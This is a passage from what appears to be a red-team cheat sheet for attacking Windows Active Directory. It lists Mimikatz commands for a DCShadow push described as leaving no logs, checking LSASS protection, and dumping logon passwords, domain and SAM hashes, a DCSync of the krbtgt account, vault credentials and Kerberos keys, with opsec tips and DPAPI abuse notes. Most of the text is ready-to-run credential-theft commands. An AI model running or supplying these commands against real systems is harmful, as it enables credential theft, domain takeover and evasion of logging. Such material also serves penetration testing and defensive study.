 Finally, from either a DA session OR a session as the user provided with the DCShadow permissions before, run the DCShadow attack. Actions staged previously will be performed without leaving any logs 😈

```plaintext
lsadump::dcshadow /push
```

## Post-Exploitation

### LSASS protection

Sometimes, LSASS is configured to run as a protected process (PPL). You can query this with PowerShell as follows.

```powershell
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL" 
```

If this is the case, you can't just dump or parse LSASS, and you need to disable the protection with something like `mimidrv.sys`. I won't discuss how to do that here, but there are tools such as [PPLDump](https://github.com/itm4n/PPLdump) available to help.

### Dumping OS credentials with Mimikatz

```plaintext
# Dump logon passwords
sekurlsa::logonpasswords

# Dump all domain hashes from a DC
## Note: Everything with /patch is noisy as heck since it writes to LSASS 🚩
lsadump::lsa /patch

# Dump only local users
lsadump::sam

# DCSync (requires 'ldap' SPN)
lsadump::dcsync /user:DOMAIN\krbtgt /domain:targetdomain.com

# Dump Windows secrets, such as stored creds for scheduled tasks (elevate first) 🚩
vault::list
vault::cred /patch

# Dump Kerberos encryption keys, including the AES256 key for better opsec (see 'Lateral Movement with Rubeus' section) 
sekurlsa::ekeys
```

### Abusing the Data Protection API (DPAPI) with Mimikatz

Mimikatz has quite some functionality to access Windows' DPAPI, which is used to encrypt many credentials, including e.g. browser passwords.

Note that Mimikatz will automatically cache the master keys that it has seen (check cache with `dpapi::cache`), but this does *NOT* work if no Mimikatz session is persisted (e.g. in Cobalt Strike or when using `Invoke-Mimikatz`). More information on using Mimikatz for DPAPI is available [here](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials).
